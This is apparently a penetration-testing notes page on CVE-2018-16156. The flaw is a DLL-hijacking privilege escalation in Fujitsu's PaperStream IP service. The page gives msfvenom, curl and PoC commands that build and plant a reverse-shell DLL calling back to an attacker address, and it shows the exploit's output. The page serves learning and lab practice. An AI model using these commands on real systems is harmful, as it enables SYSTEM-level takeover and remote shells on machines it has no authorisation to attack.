 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# PaperStream IP

[PaperStream IP](https://www.pfu-us.ricoh.com/scanners/fi/solutions/paperstream-ip) is Fujitsu’s image processing software designed to optimize scanned documents for clarity, searchability, and storage. It operates as a background service that interfaces with TWAIN or ISIS drivers, providing cleanup, enhancement, and conversion of scanned images before they are delivered to applications.

## Local PE

PaperStream IP (TWAIN) version `1.42.0.5685` is affected by a privilege escalation vulnerability ([CVE-2018-16156](https://nvd.nist.gov/vuln/detail/CVE-2018-16156)) due to unsafe DLL loading in the `FJTWSVIC` service, which runs with `SYSTEM` privileges and processes unauthenticated messages over the `FjtwMkic_Fjicube_32` named pipe. The vulnerable function attempts to load `UninOldIS.dll` and execute an exported function named `ChangeUninstallString`.&#x20;

Since this DLL does not exist in the default installation, an attacker can place a malicious DLL with the same name in any directory referenced by the `PATH` environment variable, resulting in arbitrary code execution with `SYSTEM`-level privileges ([PoC](https://www.exploit-db.com/exploits/49382)).

{% code overflow="wrap" %}
```bash
$ searchsploit PaperStream
​
PaperStream IP (TWAIN) 1.42.0.5685 - Local Privilege Escalation | windows/local/49382.ps1
​
# Default payload name on the PoC
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.241 LPORT=80 -f dll -o UninOldIS.dll
```
{% endcode %}

```powershell
# Default location on the PoC
> curl http://192.168.45.241:443/UninOldIS.dll -o c:\Windows\Temp\UninOldIS.dll

> powershell 49382.ps1
Writable location found, copying payload to C:\JavaTemp\
Payload copied, triggering...

Payload triggered
```
